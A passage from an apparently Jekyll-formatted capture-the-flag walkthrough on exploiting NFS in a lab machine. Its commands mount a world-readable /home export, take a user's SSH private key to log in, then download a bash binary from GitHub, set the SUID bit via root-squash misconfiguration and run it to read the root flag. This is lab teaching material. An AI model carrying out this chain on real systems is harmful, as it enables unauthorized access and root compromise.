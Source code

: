 Since port `2049` is open, we can see if NFS server made any share as public accessible.
{% capture code %}{% raw %}showmount -e <ip>{% endraw %}{% endcapture %} {% include code.html code=code %}

An output similar to below will be obtained.
{% capture code %}{% raw %}Export list for <ip>:
/home *{% endraw %}{% endcapture %} {% include code.html code=code %}

Create a temporary folder in local machine and try to mount the NFS share.
{% capture code %}{% raw %}mkdir /tmp/mount
mount -t nfs <ip>:/home /tmp/mount -nolock
ls -al /tmp/mount{% endraw %}{% endcapture %} {% include code.html code=code %}

Check if there are any interesting files we can make use of.
{% capture code %}{% raw %}ls -al /tmp/mount/cappucino
ls -al /tmp/mount/cappucino/.ssh/{% endraw %}{% endcapture %} {% include code.html code=code %}

There is rsa key available. Check if its the same key used in `authorized_keys`.
{% capture code %}{% raw %}awk '{print $NF}' /tmp/mount/cappucino/.ssh/id_rsa.pub
awk '{print $NF}' /tmp/mount/cappucino/.ssh/authorized_keys{% endraw %}{% endcapture %} {% include code.html code=code %}

`SSH` to the host should work now with the rsa key present.
{% capture code %}{% raw %}ssh -i /tmp/mount/cappucino/.ssh/id_rsa cappucino@<ip>{% endraw %}{% endcapture %} {% include code.html code=code %}


### Task 4 - Exploiting NFS

Use these links as references.
- [Bash binary](https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash){:target="_blank"}


Even though ssh access is obtained, NFS implements `root-squash` setting, which maps remote root users to `nfsnobody`, which contains least privileges. This can be exploited using `SUID` bit set to binary.

Navigate to user's home directory, download the bash binary, and set `SUID`.
{% capture code %}{% raw %}cd /tmp/mount/cappucino
wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
chmod +s bash{% endraw %}{% endcapture %} {% include code.html code=code %}

Login to the machine with rsa key and see if `SUID` binary can be run to obtain privilege escalation.
{% capture code %}{% raw %}ssh -i /tmp/mount/cappucino/.ssh/id_rsa cappucino@<ip>
./bash -p
cat /root/root.txt
    <flag>{% endraw %}{% endcapture %} {% include code.html code=code %}


## SMTP


### Task 5 - Understanding SMTP
